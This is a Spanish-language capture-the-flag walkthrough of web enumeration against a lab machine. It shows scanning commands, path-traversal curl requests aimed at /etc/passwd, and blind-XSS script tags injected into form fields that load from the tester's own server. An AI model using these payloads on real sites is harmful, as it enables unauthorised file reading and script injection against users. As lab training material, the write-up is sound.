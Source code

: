 ### Analyzando la web {-}

#### Whatweb {-}

```bash
whatweb http://10.10.10.176
```

Es un Apache 2.4.29 Ubuntu que usa PHP 7.3.4. Vemos un password field que nos hace pensar que estamos
en un panel de inicio de session.

#### Mini fuzzing con http-enum {-}

```bash
nmap --script http-enum -p80 10.10.10.176 -oN webScan
```

Vemos un directorio `/admin`

#### Checkear la web {-}

Si entramos en la url `http://10.10.10.176`, Vemos una pagina que nos permite loggear o registrar. En la pagina `http://10.10.10.176/admin` tenemos un
otro panel de inicio de session para el panel de administracion.

Empezamos por crear una cuenta
y nos loggeamos.

Aqui vemos una biblioteca. Podemos

- ver libros en pdf
- añadir un libro a la coleccion
- contactar el administrator

Haciendo Hovering a las imagenes de la pagina `books.php`, vemos que hay un link a `http://10.10.10.176/download.php?file=1`

Miramos con curl si es vulnerable a LFI

```bash
curl -s -X GET "http://10.10.10.176/download.php?file=/etc/passwd"
curl -s -X GET "http://10.10.10.176/download.php?file=/etc/passwd -L"
curl -s -X GET "http://10.10.10.176/download.php?file=../../../../../../etc/passwd"
curl -s -X GET "http://10.10.10.176/download.php?file=../../../../../../etc/passwd -L"
```

No parece ser vulnerable en este caso.

En las paginas `/collections.php` y `/contact.php` vemos que las request necessitan ser validadas por otro usuario. Miramos si es vulnerable a un XSS

```bash
python3 -m http.server 80
```

y ponemos en los inputs de la web 

```bash
<script src="http://10.10.17.51/book" />
<script src="http://10.10.17.51/title" />
<script src="http://10.10.17.51/message" />
```
